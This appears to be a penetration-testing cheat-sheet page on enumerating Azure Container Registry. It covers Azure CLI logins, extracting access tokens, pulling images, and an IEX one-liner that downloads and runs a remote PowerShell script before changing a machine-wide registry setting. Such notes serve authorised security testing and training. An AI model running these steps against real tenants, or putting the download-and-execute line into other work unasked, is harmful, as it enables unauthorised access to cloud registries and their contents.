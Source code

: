 # Azure Services - Container Registry

## Enumerate

List container registries in the subscription using Azure CLI

```ps1
az login -u user@domain.onmicrosoft.com -p pass
az acr list -o table
```

Login to the Registry

```ps1
acr=<ACRName> # from the previous command
server=$(az acr login -n $acr --expose-token --query loginServer -o tsv) 
token=$(az acr login -n $acr --expose-token --query accessToken -o tsv) 
docker login $server -u 00000000-0000-0000-0000-000000000000 -p $token 
```

List the images in the ACR

```ps1
az acr repository list -n $acr 
```

List version tags for an image

```ps1
az acr repository show-tags -n $acr --repository mywebapp
```

Connect to the container registry from a PowerShell console, set the $server and $token variables, and pull the image from the registry

```ps1
# docker login ${registryURI} --username ${username} --password ${password}
$token="<AccessToken>"
$server="<LoginServer>"
docker login $server -u 00000000-0000-0000-0000-000000000000 -p $token
docker pull $server/mywebapp:v1
```

List docker containers inside a registry

```ps1
IEX (New-Object Net.WebClient).downloadstring("https://raw.githubusercontent.com/NetSPI/MicroBurst/master/Misc/Get-AzACR.ps1")
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Internet Explorer\Main" -Name "DisableFirstRunCustomize" -Value 2
Get-AzACR -username ${username} -password ${password} -registry ${registryURI}
```

## References

* [PENTESTING AZURE: RECON TECHNIQUES - April 29, 2022 Stefan Tita](https://securitycafe.ro/2022/04/29/pentesting-azure-recon-techniques/)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)
